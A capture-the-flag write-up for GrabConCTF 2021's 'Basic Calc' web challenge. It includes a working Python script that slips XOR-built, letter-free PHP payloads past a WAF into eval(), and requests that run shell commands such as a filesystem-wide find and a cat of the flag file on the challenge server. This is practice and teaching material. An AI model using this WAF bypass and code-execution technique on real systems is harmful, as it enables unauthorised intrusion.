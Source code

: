 # Basic Calc Writeup (web, 150pts, 88 solved)

## Description
```
Ever used calc based on php?

Link

Author: karma
```

## Task Analysis

Following the link brought me to the following webpage:

![Intro](/GrabConCTF-2021/Basic Calc/screenshots/intro.PNG)

Users are presented with a field designed to serve as a calculator, and immediately below it the unrendered html and php for the page. This made it clear that the field was protected by a WAF designed to disallow any upper or lower case letters as well as the "`" character within the submitted string. Any input that makes it past the WAF is passed to the eval() function. Our task, then, was to bypass this WAF and exploit the use of eval() to execute our own php code and find the flag.

# Solution

After briefly researching the topic I used a modified version of a [python script](https://ironhackers.es/en/tutoriales/saltandose-waf-ejecucion-de-codigo-php-sin-letras/) from a writeup for a previous CTF that bypasses a very similar WAF:

```
import requests
import string

def get_xor_strings(expected, valids):
  word1 = ""
  word2 = ""
  for i in expected:
    for valid in valids:
      result = chr(ord(i) ^ ord(valid))
      if result in valids:
        word1 = word1 + result
        word2 = word2 + valid
        break
  return word1, word2

valids = [ ]
for item in string.printable:
  if item not in string.ascii_letters:
    valids.append(item)
valids = valids[:len(valids)-3]
print("[+] Generated valids => {}".format(valids))
 
expected = "phpinfo"
word1, word2 = get_xor_strings(expected, valids)
print("[+] Word 1 {}- Word2 {}".format(word1, word2))

payload = "666; (\"{}\"^\"{}\")()".format(word1, word2)
print("[+] Sending payload {}".format(payload))
 
response = requests.post('http://35.238.221.234', data={"eq":payload})

print(response.status_code, response.reason)
print(response.content.decode())
```

The script first creates a set of "valid" (i.e. will not trigger the WAF) printable characters. Each character in the "expected" string (the string we would like to be executed by eval()) is masked with a valid character so that the result is another valid character. The masked characters (word1 below) and the valid characters used for the mask (word2 below) are then returned:  

```
def get_xor_strings(expected, valids):
  word1 = ""
  word2 = ""
  for i in expected:
    for valid in valids:
      result = chr(ord(i) ^ ord(valid))
      if result in valids:
        word1 = word1 + result
        word2 = word2 + valid
        break
  return word1, word2

valids = [ ]
for item in string.printable:
  if item not in string.ascii_letters:
    valids.append(item)
valids = valids[:len(valids)-3]
```

Masking is removed when the eval() statement applies the XOR operator ("^") included in the final payload string, which cancels out the initial masking. Something to note is that performing an XOR on two strings works here because php will perform [type juggling](https://www.php.net/manual/en/language.types.type-juggling.php) when evaluating strings in a numerical context:

```
expected = "phpinfo"
word1, word2 = get_xor_strings(expected, valids)
print("[+] Word 1 {}- Word2 {}".format(word1, word2))

payload = "666; (\"{}\"^\"{}\")()".format(word1, word2)
print("[+] Sending payload {}".format(payload))
```

I executed the script with "phpinfo()" encoded as the payload and achieved the following output:

![working_bypass](/GrabConCTF-2021/Basic Calc/screenshots/phpinfo.PNG)

Receiving the desired output of phpinfo() determined that the bypass was working. I executed the script with "print_r(scandir(/var/www/html/))" as the payload to print out the current directory's contents:

![scandir](/GrabConCTF-2021/Basic Calc/screenshots/scandir.PNG)

I repeated running the script using "show_source(12.php)" to retrieve the contents of the file (the same was done for file.txt but it was empty of meaningful content):

![show_source](/GrabConCTF-2021/Basic Calc/screenshots/show_source.PNG)

Upon rendering the response to make it more readable, I had:

![rendered_response](/GrabConCTF-2021/Basic Calc/screenshots/rendered_response.PNG)

This file gave me an endpoint that could execute whatever bash commands I wanted to send to it using a GET request, which would allow me to navigate the file system much more easily. So I used the Burp decoder tool to URL encode the following:

![burp_encode_find](/GrabConCTF-2021/Basic Calc/screenshots/burp_encode_find_flag.PNG)

And sent it to the endpoint:
```
import requests

#find / -name *flag*
response = requests.post('http://35.238.221.234/12.php?cmd=%66%69%6e%64%20%2f%20%2d%6e%61%6d%65%20%2a%66%6c%61%67%2a')

print(response.status_code, response.reason)
print(response.content.decode())
```
I recieved the following output:
![find_output](/GrabConCTF-2021/Basic Calc/screenshots/find_flag_output.PNG)

I repeated the above for "cat /flagggg.txt", and received:

![flag](/GrabConCTF-2021/Basic Calc/the_flag.PNG)

And I found the flag: "GrabCON{b4by_php_f0r_y0u}"
